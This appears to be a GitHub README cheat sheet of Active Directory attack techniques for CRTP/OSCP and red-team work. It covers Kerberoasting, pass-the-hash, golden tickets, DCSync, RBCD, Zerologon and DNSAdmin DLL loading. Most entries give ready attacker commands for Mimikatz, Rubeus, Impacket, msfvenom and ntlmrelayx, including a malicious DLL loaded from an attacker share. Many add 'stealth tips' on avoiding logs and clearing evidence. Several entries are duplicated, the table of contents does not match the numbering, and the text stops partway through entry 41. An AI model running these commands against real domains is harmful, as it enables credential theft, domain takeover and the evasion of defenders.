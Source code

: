 # 🛡️ Active Directory Attack Techniques (Red Team Edition)

This document provides a detailed walkthrough of **Real-world Active Directory attack techniques**, optimized for **CRTP**, **OSCP**, and stealth-focused **Red Team operations**.

---

## ✅ Features

- 🔐 Realistic AD attacks (AS-REP Roasting, Kerberoasting, DCSync, etc.)
- 🧠 Understand how each technique works under the hood
- 🛠 Tools and usage examples
- 🕵️‍♂️ Red Team **stealth recommendations** for quiet execution
- 📥 Downloadable HTML [Interactive Checklist](./CRTP_OSCP_AD_CheckList.html) available

---

## 📑 Table of Contents
- [1. AS-REP Roasting](#as-rep-roasting)
- [2. Kerberoasting](#kerberoasting)
- [3. Pass-the-Hash (PtH)](#pass-the-hash)
- [4. Pass-the-Ticket (PtT)](#pass-the-ticket)
- [5. DCSync Attack](#dcsync-attack)
- [6. Unconstrained Delegation](#unconstrained-delegation)
- [7. Constrained Delegation](#constrained-delegation)
- [8. Resource-Based Constrained Delegation (RBCD)](#resource-based-constrained-delegation)
- [9. Silver Ticket](#silver-ticket)
- [10. Golden Ticket](#golden-ticket)
- [11. NTDS.dit Dump](#ntdsdit-dump)
- [12. GPP Passwords](#gpp-passwords)
- [13. LAPS Dumping](#laps-dumping)
- [14. AdminSDHolder Abuse](#adminsdholder-abuse)
- [15. ACL Abuse](#acl-abuse)
- [16. Printer Spooler Bug](#printer-spooler-bug)
- [17. Shadow Credentials](#shadow-credentials)
- [18. Certificate Template Escalation (ESC1)](#certificate-template-escalation)
- [19. Service Unquoted Path Abuse](#service-unquoted-path-abuse)
- [20. RDP Hijack](#rdp-hijack)
- [21. SAM & SYSTEM Hive Dump](#sam-%26-system-hive-dump)
- [22. LSA Secrets Dump](#lsa-secrets-dump)
- [23. RID Cycling](#rid-cycling)
- [24. Token Impersonation](#token-impersonation)
- [25. WMI Lateral Movement](#wmi-lateral-movement)
- [26. ADCS ESC1: Misconfigured Certificate Template](#adcs-esc1%3A-misconfigured-certificate-template)
- [27. ADCS ESC8: NTLM Relay to Web Enrollment](#adcs-esc8%3A-ntlm-relay-to-web-enrollment)
- [28. PetitPotam + ADCS (EFSRPC Coercion)](#petitpotam-%2B-adcs-%28efsrpc-coercion%29)
- [29. AdminSDHolder Persistence](#adminsdholder-persistence)
- [30. SID Filtering Bypass](#sid-filtering-bypass)
- [31. LDAP ACL Enumeration & Abuse](#ldap-acl-enumeration-%26-abuse)
- [32. Printer Bug (MS-RPRN Coercion)](#printer-bug-%28ms-rprn-coercion%29)
- [33. Unusual SPN Registration for Lateral Movement](#unusual-spn-registration-for-lateral-movement)
- [34. ESC2: Template with Weak ACL](#esc2%3A-template-with-weak-acl)
- [35. ESC3: Enrollable by Low-Priv Group](#esc3%3A-enrollable-by-low-priv-group)
- [36. ESC4: Manager Approval Misuse](#esc4%3A-manager-approval-misuse)
- [37. ESC5: Enroll as Machine Template](#esc5%3A-enroll-as-machine-template)
- [38. ESC6: Authenticated Users Can Enroll](#esc6%3A-authenticated-users-can-enroll)
- [39. ESC7: Vulnerable Unused Template](#esc7%3A-vulnerable-unused-template)
- [40. DCSync via GenericAll / Replication Rights](#dcsync-via-genericall--replication-rights)
- [41. Abusing GenericWrite on User Object](#abusing-genericwrite-on-user-object)
- [42. Overpass-the-Hash (Pass-the-Key)](#overpass-the-hash-%28pass-the-key%29)
- [43. RBCD via AddAllowedToAct (ACL Abuse)](#rbcd-via-addallowedtoact-%28acl-abuse%29)
- [44. Abusing Resource-Based Constrained Delegation (No Pre-auth)](#abusing-resource-based-constrained-delegation-%28no-pre-auth%29)
- [45. DCShadow Attack](#dcshadow-attack)
- [46. Golden Ticket Attack](#golden-ticket-attack)
- [47. Skeleton Key Attack](#skeleton-key-attack)
- [48. SIDHistory Injection](#sidhistory-injection)
- [49. AdminSDHolder Abuse](#adminsdholder-abuse)
- [50. Unconstrained Delegation Abuse](#unconstrained-delegation-abuse)
- [51. Kerberoasting with AES Keys](#kerberoasting-with-aes-keys)
- [52. Printer Bug + RBCD](#printer-bug-%2B-rbcd)
- [53. Kerberos SID Filtering Bypass](#kerberos-sid-filtering-bypass)
- [54. AS-REP Roasting (AES Variant)](#as-rep-roasting-%28aes-variant%29)
- [55. DNSAdmin to DC Compromise](#dnsadmin-to-dc-compromise)
- [56. Abusing ACL on GPO](#abusing-acl-on-gpo)
- [57. Shadow Credentials (Key Credential Link Attack)](#shadow-credentials-%28key-credential-link-attack%29)
- [58. Exchange PrivEsc via WriteDacl](#exchange-privesc-via-writedacl)
- [59. ReadGMSAPassword for Privilege Escalation](#readgmsapassword-for-privilege-escalation)
- [60. Kerberos Delegation Loop](#kerberos-delegation-loop)
- [61. Abuse Service Principal Name (SPN) via Resource-based Constrained Delegation](#abuse-service-principal-name-%28spn%29-via-resource-based-constrained-delegation)
- [62. Malicious GPO Deployment](#malicious-gpo-deployment)
- [63. Kerberos Constrained Delegation (KCD) Abuse](#kerberos-constrained-delegation-%28kcd%29-abuse)
- [64. Unquoted Service Path Privilege Escalation](#unquoted-service-path-privilege-escalation)

---



## 📋 Attack Descriptions


<a name="as-rep-roasting"></a>
<details>
  <summary><strong>1. AS-REP Roasting</strong></summary>

- **Purpose**: Offline cracking of user password hash  
- **Functionality**: Kerberos allows unauthenticated ticket requests for users with DONT_REQ_PREAUTH  
- **Why It's Vulnerable**: No pre-auth required, so TGT encrypted with weak password hash can be cracked  
- **How to Test**: Use `GetNPUsers.py` or `Rubeus` to extract AS-REP hashes  
```bash
# Using Impacket
GetNPUsers.py -dc-ip 192.168.1.10 domain.local/ -usersfile users.txt

# Using Rubeus
Rubeus.exe asreproast
```
- **Tools**: Impacket, Rubeus, hashcat  
- **Stealth Tips**: Use known usernames only; avoid brute-forcing; low log footprint  
</details>

<a name="kerberoasting"></a>
<details>
  <summary><strong>2. Kerberoasting</strong></summary>

- **Purpose**: Offline password cracking of service accounts  
- **Functionality**: Any domain user can request service tickets for SPNs  
- **Why It's Vulnerable**: Tickets are encrypted with service account NTLM hash  
- **How to Test**: Extract SPN tickets using `GetUserSPNs.py` or `Rubeus`  
```bash
# Using Impacket
GetUserSPNs.py -request -dc-ip 192.168.1.10 domain.local/user:password

# Using Rubeus
Rubeus.exe kerberoast
```
- **Tools**: Impacket, Rubeus, hashcat  
- **Stealth Tips**: Limit SPN requests; monitor for Event ID 4769  
</details>

<a name="pass-the-hash"></a>
<details>
  <summary><strong>3. Pass-the-Hash (PtH)</strong></summary>

- **Purpose**: Authenticate without knowing plaintext password  
- **Functionality**: Windows allows authentication using NTLM hash  
- **Why It's Vulnerable**: Captured hashes can be reused for lateral movement  
- **How to Test**: Use tools to authenticate with just the hash  
```bash
# SMB via wmiexec
wmiexec.py domain.local/user@192.168.1.20 -hashes <NTLM>:<NTLM>

# WinRM
evil-winrm -i 192.168.1.20 -u user -H <NTLM>
```
- **Tools**: Mimikatz, Impacket, Evil-WinRM  
- **Stealth Tips**: Use valid hashes only; avoid brute-force; monitor 4624 events  
</details>

<a name="pass-the-ticket"></a>
<details>
  <summary><strong>4. Pass-the-Ticket (PtT)</strong></summary>

- **Purpose**: Authenticate using forged or stolen Kerberos tickets  
- **Functionality**: Windows lets users inject TGT/TGS tickets into session  
- **Why It's Vulnerable**: Kerberos tickets can be reused or forged  
- **How to Test**: Inject ticket using `Rubeus` or `Mimikatz`  
```bash
# Dump existing tickets
Rubeus.exe dump

# Inject ticket
Rubeus.exe ptt /ticket:<base64>.kirbi

# Or with Mimikatz
kerberos::ptt ticket.kirbi
```
- **Tools**: Rubeus, Mimikatz  
- **Stealth Tips**: Reuse only valid, short-lived tickets; monitor ticket injection  
</details>

<a name="overpass-the-hash"></a>
<details>
  <summary><strong>5. Overpass-the-Hash (Pass-the-Key)</strong></summary>

- **Purpose**: Generate TGT using NTLM hash instead of password  
- **Functionality**: NTLM hash used to request TGT via Kerberos  
- **Why It's Vulnerable**: Weak NTLM protection enables fake TGT generation  
- **How to Test**: Use `Rubeus` to request and inject TGT  
```bash
# Request TGT using NTLM
Rubeus.exe asktgt /user:<user> /rc4:<NTLM> /domain:<domain.local>

# Inject ticket
Rubeus.exe ptt /ticket:<base64>.kirbi
```
- **Tools**: Rubeus, hashcat  
- **Stealth Tips**: Avoid multiple TGT requests; clean up tickets post-use  
</details>

<a name="golden-ticket"></a>
<details>
  <summary><strong>6. Golden Ticket</strong></summary>

- **Purpose**: Forge a TGT for any user with unlimited lifetime  
- **Functionality**: Built using krbtgt NTLM hash  
- **Why It's Vulnerable**: Compromise of `krbtgt` account enables full domain persistence  
- **How to Test**: Use `Mimikatz` to forge and inject a TGT  
```powershell
# Mimikatz command
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-... /krbtgt:<hash> /ticket:golden.kirbi
kerberos::ptt golden.kirbi
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Use only when krbtgt hash is available; monitor 4768/4769 logs  
</details>

<a name="silver-ticket"></a>
<details>
  <summary><strong>7. Silver Ticket</strong></summary>

- **Purpose**: Forge TGS for specific service  
- **Functionality**: Uses service account NTLM hash (not krbtgt)  
- **Why It's Vulnerable**: No need to contact DC when using forged TGS  
- **How to Test**: Forge and inject TGS using Mimikatz or Rubeus  
```powershell
# Forge silver ticket
kerberos::golden /user:svcuser /domain:domain.local /sid:S-1-5-... /rc4:<NTLM> /service:cifs /target:hostname /ticket:silver.kirbi
kerberos::ptt silver.kirbi
```
- **Tools**: Mimikatz, Rubeus  
- **Stealth Tips**: No DC contact makes detection harder; cleanup injected TGS  
</details>

<a name="dcsync-attack"></a>
<details>
  <summary><strong>8. DCSync Attack</strong></summary>

- **Purpose**: Extract password hashes directly from DC  
- **Functionality**: Abuse `Replicating Directory Changes` rights to mimic a DC  
- **Why It's Vulnerable**: Misconfigured ACLs grant replication rights  
- **How to Test**: Use Mimikatz `lsadump::dcsync`  
```powershell
lsadump::dcsync /domain:domain.local /user:Administrator
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Generates log 4662; use on stealthy admin accounts  
</details>

<a name="dcshadow-attack"></a>
<details>
  <summary><strong>9. DCShadow Attack</strong></summary>

- **Purpose**: Push malicious changes into AD (e.g., SIDHistory)  
- **Functionality**: Register rogue domain controller and replicate changes  
- **Why It's Vulnerable**: Abuse of replication permissions  
- **How to Test**: Use `mimikatz` DCShadow module  
```powershell
# In mimikatz
lsadump::dcshadow /object:CN=user,CN=Users,DC=domain,DC=local /attribute:Description /value:Hacked
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Hard to detect; monitor for rogue DC registrations  
</details>

<a name="shadow-credentials"></a>
<details>
  <summary><strong>10. Shadow Credentials</strong></summary>

- **Purpose**: Persist access using alternate credentials (KeyCredential)  
- **Functionality**: Add fake key to user object for silent authentication  
- **Why It's Vulnerable**: Misconfigured ACLs allow adding `msDS-KeyCredentialLink`  
- **How to Test**: Use `Whisker` or `pyWhisker`  
```bash
# Using pyWhisker
python3 pywhisker.py --action add --target 'user@domain.local' --sid S-1-5-... --cert-pfx evil.pfx
```
- **Tools**: pyWhisker, Rubeus, adidnsdump  
- **Stealth Tips**: Extremely stealthy; nearly no log footprint  
</details>


<a name="unconstrained-delegation"></a>
<details>
  <summary><strong>11. Unconstrained Delegation</strong></summary>

- **Purpose**: Impersonate any user who authenticates to a service  
- **Functionality**: TGTs are stored in memory and can be stolen  
- **Why It's Vulnerable**: Services with unconstrained delegation store user TGTs  
- **How to Test**: Identify systems with unconstrained delegation  
```powershell
# PowerView
Get-DomainComputer -Unconstrained

# Extract TGT from memory using Rubeus
Rubeus.exe dump
```
- **Tools**: PowerView, Rubeus, Mimikatz  
- **Stealth Tips**: Avoid crashing LSASS; use on logged-in targets  
</details>

<a name="constrained-delegation"></a>
<details>
  <summary><strong>12. Constrained Delegation</strong></summary>

- **Purpose**: Impersonate a user to a specific service  
- **Functionality**: Service can request TGS on behalf of user  
- **Why It's Vulnerable**: Misconfigured S4U2Self/S4U2Proxy allows impersonation  
- **How to Test**: Abuse using S4U attack with Rubeus  
```powershell
# S4U attack using Rubeus
Rubeus.exe s4u /user:<user> /rc4:<NTLM> /impersonateuser:Administrator /msdsspn:cifs/dc.domain.local /domain:<domain>
```
- **Tools**: Rubeus  
- **Stealth Tips**: No DC contact if ticket reused; monitor 4769 logs  
</details>

<a name="resource-based-constrained-delegation"></a>
<details>
  <summary><strong>13. Resource-Based Constrained Delegation (RBCD)</strong></summary>

- **Purpose**: Impersonate users to target machine or service  
- **Functionality**: Target object controls its own delegation settings  
- **Why It's Vulnerable**: Any user with write access to target can configure delegation  
- **How to Test**: Use `GenericWrite`/`GenericAll` to set msDS-AllowedToActOnBehalfOfOtherIdentity  
```powershell
# Using PowerView
Set-ADComputer -Identity TARGET -PrincipalsAllowedToDelegateToAccount ATTACKER$

# Using Rubeus and S4U
Rubeus.exe s4u ...
```
- **Tools**: PowerView, Rubeus, SharpHound  
- **Stealth Tips**: Clean up delegation entries post-exploitation  
</details>

<a name="printer-bug-coercion"></a>
<details>
  <summary><strong>14. Printer Bug (SpoolSample)</strong></summary>

- **Purpose**: Coerce authentication from remote machine  
- **Functionality**: Exploit MS-RPRN to trigger SMB authentication  
- **Why It's Vulnerable**: Misuse of Print Spooler to trigger outbound auth  
- **How to Test**: Use `SpoolSample` or `rpcdump`  
```bash
# SpoolSample
SpoolSample.exe <victim-ip> <attacker-ip>
```
- **Tools**: SpoolSample, Inveigh  
- **Stealth Tips**: Use with relaying setup (e.g., ntlmrelayx)  
</details>

<a name="shadow-admins"></a>
<details>
  <summary><strong>15. Shadow Admins</strong></summary>

- **Purpose**: Persistence via indirect privilege escalation  
- **Functionality**: Users granted rights over admin accounts  
- **Why It's Vulnerable**: Misconfigured ACLs allow privilege chaining  
- **How to Test**: Identify users/groups with indirect control  
```powershell
# Using PowerView
Invoke-ACLScanner | ? { $_.IdentityReference -like "*admin*" }
```
- **Tools**: PowerView, BloodHound  
- **Stealth Tips**: Shadow paths harder to detect than DA membership  
</details>

<a name="admin-sdholder-abuse"></a>
<details>
  <summary><strong>16. AdminSDHolder Abuse</strong></summary>

- **Purpose**: Persistent privilege escalation  
- **Functionality**: Changes to AdminSDHolder propagate to protected accounts  
- **Why It's Vulnerable**: Write access to AdminSDHolder object gives domain rights  
- **How to Test**: Add user to AdminSDHolder's ACL  
```powershell
# Using PowerView
Add-ADPermission -Identity "CN=AdminSDHolder,CN=System,DC=domain,DC=local" -User attacker -ExtendedRights "All"
```
- **Tools**: PowerView, ADSI Edit  
- **Stealth Tips**: Change re-applies every 60 minutes; remove afterward  
</details>

<a name="acl-based-privesc"></a>
<details>
  <summary><strong>17. ACL-Based PrivEsc</strong></summary>

- **Purpose**: Escalate privileges using misconfigured object permissions  
- **Functionality**: WriteDACL/GenericAll enables adding membership or privileges  
- **Why It's Vulnerable**: Poor delegation of permissions  
- **How to Test**: Identify writeable objects using BloodHound or PowerView  
```powershell
# With PowerView
Invoke-ACLScanner

# Add user to group
Add-ADGroupMember -Identity "Domain Admins" -Members attacker
```
- **Tools**: PowerView, BloodHound  
- **Stealth Tips**: Clean audit trails, remove attacker after use  
</details>

<a name="gmsa-abuse"></a>
<details>
  <summary><strong>18. gMSA Abuse</strong></summary>

- **Purpose**: Abuse Group Managed Service Account to gain lateral access  
- **Functionality**: Passwords for gMSAs are retrievable by authorized systems  
- **Why It's Vulnerable**: Misconfigured read permissions allow extraction  
- **How to Test**: Use Mimikatz or custom tools to extract gMSA password  
```powershell
# Using Mimikatz
lsadump::gmsa
```
- **Tools**: Mimikatz, ADModule  
- **Stealth Tips**: Very stealthy if done from authorized machine  
</details>

<a name="ldap-signing-downgrade"></a>
<details>
  <summary><strong>19. LDAP Signing Downgrade</strong></summary>

- **Purpose**: Downgrade secure LDAP communication for interception  
- **Functionality**: Disable signing requirements to perform MITM  
- **Why It's Vulnerable**: Default configuration allows unsigned LDAP  
- **How to Test**: Use `ntlmrelayx` with LDAP relaying  
```bash
# Relaying NTLM to LDAP
ntlmrelayx.py -t ldap://dc.domain.local --escalate-user attacker
```
- **Tools**: Impacket, Responder, ntlmrelayx  
- **Stealth Tips**: Combine with coercion attacks (e.g., PetitPotam)  
</details>

<a name="zerologon"></a>
<details>
  <summary><strong>20. Zerologon (CVE-2020-1472)</strong></summary>

- **Purpose**: Full DC compromise via Netlogon flaw  
- **Functionality**: Exploits all-zero challenge to bypass auth  
- **Why It's Vulnerable**: Flawed cryptographic implementation in Netlogon  
- **How to Test**: Use `Zerologon` PoC or `impacket` script  
```bash
# Test
python3 zerologon_tester.py dc.domain.local

# Exploit
python3 zerologon_exploit.py dc.domain.local
```
- **Tools**: Impacket, CVE PoC  
- **Stealth Tips**: Very noisy; avoid unless authorized  
</details>

<a name="dnsadmin-to-dc-compromise"></a>
<details>
  <summary><strong>21. DNSAdmin to DC Compromise</strong></summary>

- **Purpose**: Elevate privileges to SYSTEM on a Domain Controller  
- **Functionality**: DNSAdmin can load DLLs through `dnscmd`  
- **Why It's Vulnerable**: DNS server service runs as SYSTEM and loads external DLLs  
- **How to Test**: Load a malicious DLL via `dnscmd`  
```bash
dnscmd <dc> /config /serverlevelplugindll \attacker\share\malicious.dll
# Restart DNS service
sc \<dc> stop dns
sc \<dc> start dns
```
- **Tools**: dnscmd, msfvenom, smbserver.py  
- **Stealth Tips**: Clean up DLL path and logs after use  
</details>

<a name="password-spray"></a>
<details>
  <summary><strong>22. Password Spray</strong></summary>

- **Purpose**: Identify weak passwords across many users  
- **Functionality**: Attempts same password for multiple users to avoid lockout  
- **Why It's Vulnerable**: AD doesn’t detect horizontal brute force effectively  
- **How to Test**: Use CrackMapExec or Hydra  
```bash
crackmapexec smb <target> -u users.txt -p 'Password123'
```
- **Tools**: CrackMapExec, Hydra, Kerbrute  
- **Stealth Tips**: Respect lockout policy; long wait between tries  
</details>

<a name="llmnr-nbt-ns-poisoning"></a>
<details>
  <summary><strong>23. LLMNR/NBT-NS Poisoning</strong></summary>

- **Purpose**: Capture NetNTLMv2 hashes from network  
- **Functionality**: Responds to broadcast name resolution requests  
- **Why It's Vulnerable**: LLMNR/NBT-NS enabled by default  
- **How to Test**: Run Responder on local subnet  
```bash
responder -I eth0
```
- **Tools**: Responder, Hashcat  
- **Stealth Tips**: Only use when legitimate traffic exists  
</details>

<a name="golden-ticket"></a>
<details>
  <summary><strong>24. Golden Ticket</strong></summary>

- **Purpose**: Create forged TGTs to impersonate any user  
- **Functionality**: TGTs can be forged using KRBTGT hash  
- **Why It's Vulnerable**: Domain compromise gives access to KRBTGT  
- **How to Test**: Extract KRBTGT hash and forge TGT  
```powershell
# Mimikatz
lsadump::lsa /patch
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21... /krbtgt:<hash>
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Set realistic lifetime, timestamps; avoid reuse  
</details>

<a name="silver-ticket"></a>
<details>
  <summary><strong>25. Silver Ticket</strong></summary>

- **Purpose**: Access services without contacting DC  
- **Functionality**: TGS can be forged using service account’s NTLM hash  
- **Why It's Vulnerable**: TGS validation does not require DC communication  
- **How to Test**: Use hash to forge TGS with Mimikatz or Rubeus  
```powershell
# Mimikatz
kerberos::ptt ticket.kirbi
```
- **Tools**: Mimikatz, Rubeus  
- **Stealth Tips**: Avoid Kerberos event logs; direct access to service  
</details>

<a name="privileged-session-hijack"></a>
<details>
  <summary><strong>26. Privileged Session Hijack</strong></summary>

- **Purpose**: Steal or reuse high-privilege token/session  
- **Functionality**: Session tokens in memory can be reused  
- **Why It's Vulnerable**: High-privilege sessions often left active  
- **How to Test**: Enumerate and steal token using Mimikatz  
```powershell
# Mimikatz
token::list
token::elevate
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Avoid alerting interactive users  
</details>

<a name="kerberos-unconstrained-delegation-ticket-theft"></a>
<details>
  <summary><strong>27. Kerberos Unconstrained Delegation Ticket Theft</strong></summary>

- **Purpose**: Steal TGTs from systems with delegation enabled  
- **Functionality**: Attacker can extract TGT from memory after victim login  
- **Why It's Vulnerable**: Unconstrained delegation caches TGT in memory  
- **How to Test**: Wait for login, extract TGT  
```powershell
# Rubeus
Rubeus.exe dump
```
- **Tools**: Rubeus, Mimikatz  
- **Stealth Tips**: Passive collection; avoid causing logon  
</details>

<a name="kerberos-over-pass-the-ticket"></a>
<details>
  <summary><strong>28. Kerberos Over Pass-the-Ticket (PtT)</strong></summary>

- **Purpose**: Use forged TGT/TGS to authenticate  
- **Functionality**: Inject Kerberos ticket into current session  
- **Why It's Vulnerable**: No validation of origin of ticket  
- **How to Test**: Inject valid TGT  
```powershell
# Rubeus or Mimikatz
kerberos::ptt ticket.kirbi
```
- **Tools**: Mimikatz, Rubeus  
- **Stealth Tips**: Use short lifetime; remove ticket after use  
</details>

<a name="kerberos-rc4-ticket-renewal"></a>
<details>
  <summary><strong>29. Kerberos RC4 Ticket Renewal</strong></summary>

- **Purpose**: Extend lifetime of Kerberos tickets  
- **Functionality**: Re-request new ticket using valid one  
- **Why It's Vulnerable**: Reuse of hash for encryption allows forging  
- **How to Test**: Use RC4 key with Rubeus  
```powershell
# Rubeus
Rubeus.exe renew /ticket:<kirbi>
```
- **Tools**: Rubeus  
- **Stealth Tips**: Limit renewals; use realistic renewal times  
</details>

<a name="delegation-chaining"></a>
<details>
  <summary><strong>30. Delegation Chaining</strong></summary>

- **Purpose**: Pivot through multiple delegation relationships  
- **Functionality**: Abuse chained constrained delegation  
- **Why It's Vulnerable**: Hard to audit complex chains  
- **How to Test**: Enumerate delegation paths using BloodHound  
```bash
# BloodHound
Collect data → Analyze delegation edges
```
- **Tools**: BloodHound, Rubeus  
- **Stealth Tips**: Use with known chains only; avoid failed impersonation  
</details>


<a name="kerberos-resource-based-constrained-delegation-rbcd"></a>
<details>
  <summary><strong>31. Resource-Based Constrained Delegation (RBCD)</strong></summary>

- **Purpose**: Elevate privileges by controlling another computer’s delegation rights  
- **Functionality**: Modify msDS-AllowedToActOnBehalfOfOtherIdentity attribute  
- **Why It's Vulnerable**: Computers can be delegated rights to impersonate users  
- **How to Test**: Create a computer account, set RBCD on target, and impersonate  
```powershell
# Powermad
New-MachineAccount -MachineAccount "owned$" -Password "Password123!"
Set-ADComputer 'TARGET' -PrincipalsAllowedToDelegateToAccount 'owned$'
```
- **Tools**: Powermad, Rubeus, mimikatz  
- **Stealth Tips**: Avoid AD logs; use short-lived account  
</details>

<a name="shadow-credentials"></a>
<details>
  <summary><strong>32. Shadow Credentials</strong></summary>

- **Purpose**: Persist access by planting alternate credentials  
- **Functionality**: Abuse msDS-KeyCredentialLink attribute  
- **Why It's Vulnerable**: Weak ACLs allow editing sensitive attributes  
- **How to Test**: Inject certificate or key credential  
```powershell
# Whisker or pyWhisker
pywhisker add -u targetuser -d domain -k c:\cert.pfx
```
- **Tools**: pyWhisker, Certify  
- **Stealth Tips**: Avoid changing primary credentials; clean up afterward  
</details>

<a name="acl-based-privilege-escalation"></a>
<details>
  <summary><strong>33. ACL-Based Privilege Escalation</strong></summary>

- **Purpose**: Abuse weak ACLs to gain privileges  
- **Functionality**: Modify rights on sensitive objects (e.g., user, computer)  
- **Why It's Vulnerable**: Delegation often misconfigured  
- **How to Test**: Enumerate ACLs using BloodHound  
```bash
# SharpHound/BloodHound
Collect ACL data → Analyze Effective Permissions
```
- **Tools**: BloodHound, PowerView, ADACLScanner  
- **Stealth Tips**: Use inherited ACLs stealthily; revert after use  
</details>

<a name="dcsync"></a>
<details>
  <summary><strong>34. DCSync Attack</strong></summary>

- **Purpose**: Dump password hashes for any domain user  
- **Functionality**: Mimics domain controller behavior to replicate secrets  
- **Why It's Vulnerable**: User with Replication rights can pull hashes  
- **How to Test**: Use Mimikatz with DCSync  
```powershell
# Mimikatz
lsadump::dcsync /domain:domain.local /user:krbtgt
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Target only necessary users; avoid dumping all  
</details>

<a name="unquoted-service-path"></a>
<details>
  <summary><strong>35. Unquoted Service Path</strong></summary>

- **Purpose**: Exploit unquoted service path to execute malicious binary as SYSTEM  
- **Functionality**: Service with unquoted path and spaces can execute attacker binary  
- **Why It's Vulnerable**: OS treats path as space-delimited and searches left-to-right  
- **How to Test**: Place executable in one of the interpreted paths  
```powershell
# Identify service
wmic service get name,pathname,startmode | findstr /i "Auto"
```
- **Tools**: PowerUp, sc.exe  
- **Stealth Tips**: Restart service quietly; clean up dropped binary  
</details>

<a name="alwaysinstall-elevated-misconfiguration"></a>
<details>
  <summary><strong>36. AlwaysInstallElevated Misconfiguration</strong></summary>

- **Purpose**: Gain SYSTEM privileges via MSI installer  
- **Functionality**: Exploit policy that allows non-admins to run MSIs as SYSTEM  
- **Why It's Vulnerable**: Admins leave AlwaysInstallElevated registry key set  
- **How to Test**: Check registry keys and run malicious MSI  
```powershell
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
msfvenom -p windows/exec CMD=calc.exe -f msi > evil.msi
msiexec /quiet /qn /i evil.msi
```
- **Tools**: msfvenom, msiexec  
- **Stealth Tips**: Rename MSI, clean up registry traces  
</details>

<a name="service-permissions-abuse"></a>
<details>
  <summary><strong>37. Service Permissions Abuse</strong></summary>

- **Purpose**: Modify service config to execute code as SYSTEM  
- **Functionality**: Misconfigured permissions allow binary path modification  
- **Why It's Vulnerable**: Services run as SYSTEM and permissions often too broad  
- **How to Test**: Use accesschk to find writable services, modify path  
```bash
accesschk.exe -uwcqv "Authenticated Users" * /svc
sc config <service> binpath= "cmd.exe /c calc.exe"
```
- **Tools**: sc.exe, accesschk.exe  
- **Stealth Tips**: Restore original path; clean artifacts  
</details>

<a name="wmi-event-subscription-persistence"></a>
<details>
  <summary><strong>38. WMI Event Subscription Persistence</strong></summary>

- **Purpose**: Maintain persistence through WMI triggers  
- **Functionality**: Subscribes to system events and executes payload  
- **Why It's Vulnerable**: WMI is deeply integrated and hard to audit  
- **How to Test**: Create a permanent event subscription  
```powershell
# PowerShell example
$Filter = Set-WmiInstance -Namespace root\subscription -Class __EventFilter ...
```
- **Tools**: PowerShell, WMI Explorer  
- **Stealth Tips**: Name events benignly; delete after use  
</details>

<a name="admin-sdholder-abuse"></a>
<details>
  <summary><strong>39. AdminSDHolder Abuse</strong></summary>

- **Purpose**: Persist elevated privileges via protected groups template  
- **Functionality**: AdminSDHolder replicates ACLs to high-privilege users every 60 min  
- **Why It's Vulnerable**: Modifying AdminSDHolder can give you rights over domain admins  
- **How to Test**: Add self as full control in ACLs of AdminSDHolder  
```powershell
Set-ADACL -Target "CN=AdminSDHolder,CN=System,DC=domain,DC=local" ...
```
- **Tools**: PowerView, ADSIEdit  
- **Stealth Tips**: Remove ACLs after use; high risk  
</details>

<a name="domain-controller-sync-via-rbcd"></a>
<details>
  <summary><strong>40. Domain Controller Sync via RBCD</strong></summary>

- **Purpose**: Gain full replication rights and extract hashes  
- **Functionality**: Combines RBCD + DCSync to replicate secrets  
- **Why It's Vulnerable**: If RBCD set on DC object, DCSync becomes possible  
- **How to Test**: Create computer, set delegation to DC, and DCSync  
```powershell
# Powermad + Rubeus
New-MachineAccount ...
Set-RBCD on DC → Use Rubeus DCSync
```
- **Tools**: Powermad, Rubeus, mimikatz  
- **Stealth Tips**: Use temporary objects; clear evidence  
</details>


<a name="netlogon-zero-logon-cve-2020-1472"></a>
<details>
  <summary><strong>41. Netlogon ZeroLogon (CVE-2020-1472)</strong></summary>

- **Purpose**: Gain domain admin access by exploiting Netlogon protocol flaw  
- **Functionality**: Sends crafted Netlogon messages with zeroed fields  
- **Why It's Vulnerable**: Cryptographic flaw allows spoofing DC credentials  
- **How to Test**: Run Python PoC to authenticate as DC  
```bash
python3 zerologon_tester.py dc-name dc-ip
```
- **Tools**: Impacket, ZeroLogon exploit scripts  
